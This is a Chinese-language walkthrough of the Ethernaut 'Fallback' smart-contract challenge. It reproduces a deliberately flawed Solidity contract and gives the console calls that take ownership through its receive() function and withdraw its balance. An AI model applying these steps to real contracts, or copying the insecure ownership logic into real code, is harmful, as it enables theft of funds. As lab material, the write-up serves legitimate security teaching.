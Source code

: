 # Fallback

> 仔细看下面的合约代码.
>
> 通过这关你需要
>
> 1. 获得这个合约的所有权
> 2. 把他的余额减到0

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## 攻击思路

1. 合约中有两个地方可以替换owner

   contribute函数

   ```solidity
   function contribute() public payable {
       require(msg.value < 0.001 ether);
       contributions[msg.sender] += msg.value;
       if(contributions[msg.sender] > contributions[owner]) {
         owner = msg.sender;
       }
     }
   ```

   receive函数

   ```solidity
   receive() external payable {
       require(msg.value > 0 && contributions[msg.sender] > 0);
       owner = msg.sender;
     }
   ```

   

2. 使用contribute函数进行攻击，需要我们比owner还要有钱

   查询合约owner有多少余额，1000贡献（1000ETH）

   ![image-20220523161816607](./owner的余额.png)

   你有钱，你牛逼！

3. 使用receive函数进行攻击，需要我们给合约转一笔钱并且还需要我们在合约中的余额大于0。所以先给合约贡献一点钱，再给合约转一笔钱，即可获取到合约的owner。

   ```js
   // 调用合约contribute函数并发送 1 wei的ETH
   await contract.contribute({value:1})
   
   // 给合约转 1 wei的ETH
   await contract.sendTransaction({value:1})
   
   // 查询此时的合约owner地址，即为自己的地址
   await contract.owner()
   ```

4. 最后把合约中的钱转走

   ```js
   await contract.withdraw()
   ```

此时提交合约实例，完成目标。